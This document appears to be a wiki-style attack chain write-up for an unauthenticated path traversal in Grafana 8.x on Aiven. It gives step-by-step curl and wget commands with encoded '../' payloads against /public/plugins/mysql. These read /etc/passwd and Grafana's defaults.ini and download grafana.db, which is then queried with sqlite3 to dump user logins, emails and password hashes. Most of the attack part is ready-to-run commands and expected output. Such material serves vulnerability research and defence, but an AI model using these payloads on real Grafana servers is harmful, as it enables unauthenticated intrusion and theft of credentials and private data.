

# Unauthenticated Path Traversal in Grafana 8.x on Aiven to Read Arbitrary Local Files

Multi-stage attack chain demonstrating exploitation of a path traversal vulnerability in Grafana 8.x instances hosted on Aiven platforms. The attack targets the /public/plugins endpoint, which fails to properly normalize paths, allowing unauthenticated attackers to read arbitrary files like /etc/passwd, Grafana configurations, and the SQLite database containing user data.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/wget]]
- [[tools/sqlite]]

### Target Environment

- Aiven-hosted Grafana 8.x instance
- Publicly accessible Grafana service (no authentication required for /public/plugins)
- Linux-based server (e.g., paths like /etc/passwd)

### Initial Access Requirements

- Access to Aiven console for test instance creation (for reproduction)
- Network access to the Grafana instance URL
- No prior credentials needed for exploitation

## Detailed Attack Procedures

### Step 1: Setup Test Environment
procedure: [[procedures/Setup-Test-Grafana-Instance-on-Aiven]]

**Objective**: Provision a vulnerable Grafana instance on Aiven to test the path traversal vulnerability.

**Instructions**: Log in to the Aiven console and create a new Grafana service. Monitor until the instance is active.

**Expected Output**: Active Grafana instance URL, e.g., https://grafana-303ca6f8-████.aivencloud.com.

**Success Indicators**:
- Instance status shows 'Running' in Aiven console
- Endpoint responds to basic HTTP requests

### Step 2: Exploit Path Traversal for System Files
procedure: [[procedures/Exploit-Path-Traversal-to-Read-System-Files]]

**Objective**: Use path traversal to read sensitive system files like /etc/passwd without authentication.

**Instructions**: Target the /public/plugins/mysql endpoint with encoded '../' sequences to escape the plugins directory. Execute [[commands/curl-path-traversal-etc-passwd]] to retrieve the file:

```bash
curl https://grafana-303ca6f8-████.aivencloud.com/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

**Expected Output**: Contents of /etc/passwd, revealing user accounts.

**Success Indicators**:
- Response contains user entries like 'root:x:0:0:root:/root:/bin/bash'
- No authentication prompt

### Step 3: Read Grafana Configuration
procedure: [[procedures/Exploit-Path-Traversal-to-Read-Grafana-Config]]

**Objective**: Traverse to Grafana's configuration files to expose settings and potential secrets.

**Instructions**: Use the --path-as-is flag to bypass client-side normalization. Execute [[commands/curl-path-as-is-grafana-config]]:

```bash
curl --path-as-is https://grafana-303ca6f8-█████████.aivencloud.com/public/plugins/mysql/../../../../../../../../../../../../usr/share/grafana/conf/defaults.ini
```

**Expected Output**: Grafana defaults.ini contents, including paths and settings.

**Success Indicators**:
- Configuration file details returned
- No errors in path resolution

### Step 4: Download and Query Database
procedure: [[procedures/Download-and-Query-Grafana-SQLite-Database]]

**Objective**: Download the SQLite database and extract user data for full compromise.

**Instructions**: Use wget to download the database via traversal, then query it with sqlite. First, execute [[commands/wget-download-sqlite-db]]:

```bash
wget -L -O ~/Downloads/grafana.db https://grafana-303ca6f8-████.aivencloud.com/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fvar/lib/grafana/grafana.db
```

Then, open and query with [[commands/sqlite-query-user-table]]:

```bash
sqlite3 ~/Downloads/grafana.db "select * from user;"
```

**Expected Output**: Downloaded DB file; query returns user records like login, email, and hashed passwords.

**Success Indicators**:
- Database file saved locally
- User data exposed in query results

## Attack Chain Summary

### Key Achievements

1. Unauthenticated access to system files via path traversal
2. Exposure of Grafana configurations and internal paths
3. Download and analysis of user database, revealing credentials and data

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[File and Directory Discovery]] File and Directory Discovery
- [[Data from Local System]] Data from Local System

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Discovery]] Discovery
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
